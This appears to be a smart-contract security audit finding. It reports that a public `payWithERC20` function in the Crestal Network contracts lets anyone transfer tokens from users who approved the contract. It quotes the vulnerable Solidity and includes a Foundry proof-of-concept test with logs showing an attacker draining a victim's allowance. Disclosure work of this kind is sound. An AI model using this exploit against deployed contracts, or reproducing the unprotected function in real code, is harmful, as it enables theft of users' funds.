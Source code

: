 Shaggy Opal Beaver

High

# Unprotected payWithERC20 Function allows complete theft of tokens

## Summary

The `payWithERC20` function in the `Payment` contract (inherited by `BlueprintCore`) lacks proper access controls, allowing any user to call it directly and transfer tokens from any address that has approved the `BlueprintCore` contract to spend their tokens.

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L8


## Details

An attacker can steal ERC20 tokens from users who have given allowance to the `BlueprintCore` contract. When users approve tokens for legitimate operations (e.g., `createAgentWithToken`), they typically approve more than the exact amount required. An attacker can exploit this by directly calling the unprotected `payWithERC20` function to drain the remaining allowance, transferring tokens to any address they choose.

Here's the unprotected function:

```solidity
    function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
        // check from and to address
        require(fromAddress != toAddress, "Cannot transfer to self address");
        require(toAddress != address(0), "Invalid to address");
        require(amount > 0, "Amount must be greater than 0");
        IERC20 token = IERC20(erc20TokenAddress);
        token.safeTransferFrom(fromAddress, toAddress, amount);
    }
```

Possible scenario: Alice might want to create more than one agent, so she’d give some excess allowance, or, she’d just trust the protocol and give max allowance. 

Bob can steal Alice’s tokens by calling the `payWithERC20` because, BlueprintCore contract inherits from Payment contract, which means any function in the Payment contract is callable from BlueprintCore contract.

### Preconditions
- user approves the Blueprint contract with an amount exceeding the price of one agent

### POC

Add this test to BlueprintV5.t.sol test file

```solidity
    address public Alice = address(0xA11CE);
    address public Bob = address(0xB0B);
    
function test_createAgentWithToken_drain() public {
        deal(address(mockToken), Alice, 10e18);
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));

        // set 1e18 cost for create agents
        blueprint.setCreateAgentTokenCost(address(mockToken), 1e18);

        //console.log Alice balance before create agent
        uint256 aliceBalanceBefore = mockToken.balanceOf(Alice);
        console.log("Alice balance before create agent", aliceBalanceBefore);

        //Alice create agent with token
        vm.startPrank(Alice);
        //approve blueprint to spend tokens
        mockToken.approve(address(blueprint), 10e18);
        bytes32 requestId =
            blueprint.createAgentWithToken(projectId, base64Proposal, workerAddress, serverURL, address(mockToken));
        vm.stopPrank();

        //console.log Alice balance after create agent
        uint256 aliceBalanceAfter = mockToken.balanceOf(Alice);
        console.log("Alice balance after create agent", aliceBalanceAfter);

        //bob balance before attack
        uint256 bobBalanceBefore = mockToken.balanceOf(Bob);
        console.log("Bob balance before attack", bobBalanceBefore);

        //Bob drain Alice's balance
        vm.startPrank(Bob);
        blueprint.payWithERC20(address(mockToken), 9e18, Alice, Bob);
        vm.stopPrank();
        console.log("Alice balance after attack", mockToken.balanceOf(Alice));
        console.log("Bob balance after attack", mockToken.balanceOf(Bob));
    }

```

Test results:

```bash
 test_createAgentWithToken_drain() (gas: 531244)
Logs:
  Alice balance before create agent 10000000000000000000
  Alice balance after create agent 9000000000000000000
  Bob balance before attack 0
  Alice balance after attack 0
  Bob balance after attack 9000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.66ms (730.19µs CPU time)

```

### Impact

Complete theft of funds.

### Recommendation

You might consider implementing proper access control.